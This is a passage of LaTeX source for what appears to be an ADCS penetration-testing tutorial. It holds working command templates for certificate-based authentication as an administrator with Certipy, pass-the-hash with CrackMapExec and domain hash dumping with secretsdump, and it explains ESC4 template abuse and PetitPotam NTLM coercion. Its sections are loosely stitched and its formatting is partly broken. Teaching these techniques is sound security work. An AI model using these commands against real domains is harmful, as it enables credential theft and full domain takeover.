    
\includegraphics[width=0.75\linewidth]{certipy9.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}
With the administrator's credential now up our sleeve, the final step is to use it to authenticate to the domain. Certipy can convert the certificate into Kerberos-based credentials, which, in turn, gives us access to the administrator account-including its NTLM password hash.
\begin{notebox}
\begin{minted}{bash}
certipy auth -pfx <Admin_Certificate.pfx> -dc-ip <DC_IP>
\end{minted}
\end{notebox}
What is happening here is that when Certipy uses the administrator's certificate, it performs PKINIT as discussed above. PKINIT is Kerberos authentication based on a certificate, against the domain controller. The domain controller validates and verifies the certificate as proof of identity and responds by issuing a valid Ticket Granting Ticket (TGT) for the administrator account.

With that TGT in place, Certipy is able to extract the administrator's NTLM hash. This hash can then be reused in Pass-the-Hash-style attacks or leveraged with post-exploitation tools such as Secretsdump, CrackMapExec, or \texttt{smbclient}.

It is at this stage, the attacker has effectively taken full control of the domain. Possessing both the administrator's certificate and hash allows them to impersonate the account anywhere across the AD environment, granting unrestricted access. Using the tools we have previously learned about such as CME, we can take complete control of the domain.
\begin{notebox}
\begin{minted}{bash}
crackmapexec smb {TARGET_IP_ADDRESS} -u {USERNAME} -H {Password Hash}
\end{minted}
\end{notebox}
\begin{figure}
    \centering
    
\includegraphics[width=0.75\linewidth]{cme1.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}

---

\section{Post-Exploitation: Dumping Password Hashes}

Once a valid certificate has been obtained—especially one that allows impersonation of privileged accounts like a Domain Controller—we can move into post-exploitation activities. One of the most valuable actions at this stage is retrieving **NTLM password hashes** from the domain.

This can be accomplished using the powerful \texttt{secretsdump.py} utility from the Impacket toolkit. By leveraging the credentials or the Kerberos TGT of a compromised DC account, we can extract hashes for **all domain users, including administrators, service accounts, and computer accounts.

bash
secretsdump.py -k -no-pass <DOMAIN>/<DC\_HOSTNAME>\$
-k: Use Kerberos authentication (with ticket from certificate abuse)
-no-pass: No password needed (since TGT is used)

These hashes can then be cracked offline or used in Pass-the-Hash attacks to move laterally and escalate further.



\subsection{Exploit 3: ESC4-Over-Permissioned Certificate Templates}

ESC4 (Enterprise Security Configuration 4) describes a class of vulnerabilities that arise when **low-privileged users are granted **excessive control over certificate templates**. This misconfiguration is often overlooked but can have severe consequences, as it allows unprivileged users to manipulate how certificates are issued and who can request them.

To demonstrate this, let’s assume we’re operating in a lab or test environment. A certificate template is configured to allow **domain users full control**—either directly through security descriptors or via Active Directory permissions (e.g., `Write`, `Enroll`, or `AllExtendedRights`). This means any authenticated user in the domain can:

* Modify template attributes (e.g., EKUs, SANs)
* Assign the template to themselves or others
* Request certificates with elevated privileges

With this level of control, a user can effectively **escalate their privileges**, often to **domain admin**, by requesting a certificate for a more privileged identity and then authenticating via **PKINIT** (Kerberos certificate authentication).

For instance, a user can:

1. Modify a template to include \texttt{Client Authentication} and \texttt{Smartcard Logon}.
2. Request a certificate with a SAN matching a privileged account (e.g., \texttt{administrator@domain.local}).
3. Use Certipy to obtain a TGT as that user.

This is a textbook example of ESC4,  the importance of tightly controlling who has access to certificate templates in Active Directory environments.


\subsection{Why ESC3 Matters}
The "Supply in the request" setting lets whoever requests a certificate decide what goes into the certificate's \textbf{\textit{Subject Alternative Name (SAN)}}. That means an attacker could submit a request but supply a SAN for any user or computer in the domain-including Domain Admins or Domain Controllers-and end up with a certificate that lets them impersonate that identity.
\subsection{How PetitPotam Abuses \texttt{EfsRpcOpenFileRaw}}
PetitPotam uses EfsRpcOpenFileRaw not to access a real file, but to coerce the target (e.g., Domain Controller) into authenticating to an attacker's machine over SMB or HTTP using NTLM.

Here is how it works:

The attacker runs PetitPotam, pointing it at the target DC.

PetitPotam calls EfsRpcOpenFileRaw, asking the DC to open a non-existent or crafted file path that points to the attacker’s machine, e.g., \\attacker\_ip\fake\_share\file.

Windows automatically attempts to authenticate to the UNC path provided (because it thinks that it is a valid file path).

This triggers the DC to send its NTLM credentials (usually as a machine account, such as DC01\$) to the attacker's listener (e.g. Responder, NTLMRelayX, or Certipy).

The attacker captures and relays the NTLM authentication to a vulnerable service (such as a certificate authority) to impersonate the DC.

\subsection{Why PetitPotam Is Dangerous}
The danger of the PetitPotam attack lies in its simplicity, stealth, and potential for complete domain compromise. One of the most alarming aspects is that no user interaction is required. The attack is initiated entirely by the attacker, who sends a specially crafted Remote Procedure Call (RPC) to a target server (such as a Domain Controller). This call is processed automatically by the system, making it extremely difficult for users or administrators to detect in real time.

Even more critically, the attacker does not need valid credentials to launch the attack. This means an unauthenticated user—someone with no legitimate access to the network—can trigger the vulnerability simply by having network connectivity to the target. The attack exploits a flaw in the way the Encrypted File System Remote Protocol (MS-EFSRPC) handles requests, specifically using the EfsRpcOpenFileRaw function to coerce the server into authenticating to a machine controlled by the attacker.

What makes this even more dangerous is that fully patched Windows systems may still be vulnerable if the Active Directory Certificate Services (ADCS) infrastructure is misconfigured. ADCS, which provides certificate-based authentication within a Windows domain, can be tricked into issuing authentication certificates based on relayed NTLM credentials. If the Certificate Authority is configured to accept NTLM authentication and includes insecure certificate templates (such as DomainController), it becomes a high-value target in a relay attack.

Once the NTLM credentials are captured and successfully relayed, the attacker can request a Kerberos Ticket Granting Ticket (TGT) on behalf of the Domain Controller. This effectively gives the attacker full impersonation of the DC, allowing them to issue tickets, access any resource in the domain, create new accounts, and ultimately take over the entire Active Directory environment. The attack combines a subtle misconfiguration with a powerful protocol-level abuse, making it one of the more severe threats to Windows enterprise environments if left unmitigated.